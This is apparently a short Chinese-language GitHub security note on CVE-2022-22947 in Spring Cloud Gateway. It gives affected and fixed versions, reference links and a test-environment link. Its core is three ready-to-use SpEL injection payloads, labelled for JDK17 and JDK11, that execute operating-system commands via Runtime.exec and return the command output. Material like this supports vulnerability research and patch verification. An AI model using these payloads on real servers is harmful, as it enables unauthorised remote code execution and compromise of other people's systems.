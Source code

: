 ### CVE-2022-22947
jdk17
```
#{new java.util.Scanner(T(java.lang.Process).getMethod('getInputStream').invoke(T(java.lang.Runtime).getRuntime().exec(new String[]{'ls'}))).useDelimiter('\A').next().replace('\n',' ')}
```
jdk11
```
#{new java.util.Scanner(''.getClass().forName('java.lang.Runtime').getRuntime().exec('id').getInputStream()).useDelimiter('\\A').next().replace('\n',' ')}
```
另外的payload：
```
#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}
```
影响版本：
> org.springframework.cloud:spring-cloud-gateway-server
> [,3.0.7) [3.1.0,3.1.1) 

- https://tanzu.vmware.com/security/cve-2022-22947
- https://0xn3va.gitbook.io/cheat-sheets/framework/spring/spring-boot-actuators
- https://blog.viettelcybersecurity.com/cve-2022-22947-spring-cloud-gateway-code-injection-vulnerability/
- https://wya.pl/2021/12/20/bring-your-own-ssrf-the-gateway-actuator/
- https://wya.pl/2022/02/26/cve-2022-22947-spel-casting-and-evil-beans/
- https://github.com/lucksec/Spring-Cloud-Gateway-CVE-2022-22947
- https://security.snyk.io/vuln/SNYK-JAVA-ORGSPRINGFRAMEWORKCLOUD-2415033


#### 测试环境
- https://github.com/wdahlenburg/spring-gateway-demo


修复版本：3.1.1
![image](https://user-images.githubusercontent.com/30398606/175478287-fb2babf6-b69d-4147-bbef-54f7d913e606.png)


受影响版本：
```
org.springframework.cloud:spring-cloud-gateway-server@[3.1.0, 3.1.1)
org.springframework.cloud:spring-cloud-gateway-server@[2.2.6.RELEASE, 3.0.7)
```
![image](https://user-images.githubusercontent.com/30398606/175480199-c483b215-0511-4f7e-94ef-faad4f6353e9.png)


